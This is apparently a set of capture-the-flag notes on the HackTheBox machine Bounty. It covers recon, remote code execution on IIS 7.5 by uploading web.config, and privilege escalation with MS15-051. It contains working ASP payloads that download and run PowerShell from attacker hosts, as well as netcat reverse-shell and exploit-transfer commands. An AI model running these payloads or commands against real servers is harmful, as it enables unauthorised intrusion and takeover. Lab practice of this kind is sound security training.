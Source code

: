 # Bounty

- Windows 6.1.7600
- IIS 7 

- Transfert a IIS 7 web.config RCS
- MS15-051-64bits.exe
- ms10_092_schelevator

## Walkthrough
- https://www.boiteaklou.fr/HackTheBox-Bounty.html

## Nmap -> IIS 7.5

````
nmap -sC -sV 10.10.10.93
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
````
=> 80 : IIS 7.5


## IIS 7.5

Browse /<>

## dirb
````
dirb http://192.168.1.11 /usr/share/dirb/wordlists/vulns/iis.txt
````


## gobuster

````
gobuster -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .aspx,.asp,.html

$ gobuster -u http://10.10.10.93/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -o gobuster/bounty

````

=> /transfert.aspx


## /transfert.aspx web.config

### IIS 7 web.config upload RCE

Googling “IIS 7.5 upload RCE” teaches us that ASP code can be executed by uploading a file called web.config.
RCE description : https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

Upload web.config

Info on IIS 7 web.config : https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/

Upload .htaccess files attack : https://github.com/wireghoul/htshells

````
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Response.write("-"&"->")
Response.write(1+2)
Response.write("<!-"&"-")
%>

````
````
http://10.10.10.93/uploadfiles/web.config
3
````

### Payload : whoami
````
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
````

Note : Payload in powershell
````
<%
on error resume next
Dim oS,output
Set oS = Server.CreateObject("WSCRIPT.SHELL")
output = oS.exec("cmd.exe > /c powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.13.75:8080/G783OPiDR3Em');").stdout.readall
Response.write("Powershell: " & vbCrLf & output & vbCrLf & vbCrLf)
%>
````


### Payload : download & execute Nishang
````
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.30:8000/shell.ps1')")
%>
-->
````
````
python -m SimpleHTTPServer 80
nv -lvp 4444

attrib *.* -h -s /s/d   : afiche les fichiers cachés
type user.txt


## Escalation

### Sherlock reco

serve Sherlock
````
curl https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1
python -m SimpleHTTPServer
````

Download & run it from PS shell
````
IEX (New-Object Net.WebClient).downloadString(‘http://10.10.14.23/priv.ps1’)
````


### MS15-051

Wget exploit
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
MS15-051-KB3045171
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip


Transfert file
New-Object Net.WebClient).DownloadFile(‘http://10.10.14.23/ms15-051×64.exe’,’c:\windows\temp\priv.exe‘

Transfert64bit nc
New-Object Net.WebClient).DownloadFile(‘http://10.10.14.23/nc64.exe’,’c:\windows\temp\nc.exe‘

Exploit
/priv.exe “c:\windows\temp\nc.exe -e cmd 10.10.14.23 1234”



### Other exploit : ms10_092_schelevator


Get wordlist from site
# cewl -w bobby_words.txt -v http://192.168.1.11

